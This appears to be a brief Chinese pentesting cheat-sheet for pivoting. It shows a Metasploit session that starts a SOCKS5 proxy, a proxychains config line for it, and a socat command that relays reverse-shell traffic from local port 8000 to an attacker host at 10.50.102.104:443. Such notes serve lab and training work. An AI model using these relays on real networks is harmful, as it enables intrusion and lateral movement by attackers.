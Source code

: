 

## msf6只有server/socks_proxy模块，而且是走socks5协议的
```
msf6 auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   127.0.0.1        yes       The local host or network interface to listen on. This must be an address on the local m
                                        achine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server



View the full module info with the info, or info -d command.


msf6 auxiliary(server/socks_proxy) > exploit 
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server

```

配置化```/etc/proxychains4.conf```，写入

```
socks5 127.0.0.1 1080
```


# socat Reverse Shell Relay（rev shell流量转发）

把本地8000端口的流量转向攻击机10.50.102.104的443端口
```
socat tcp-l:8000 tcp:10.50.102.104:443 &
```
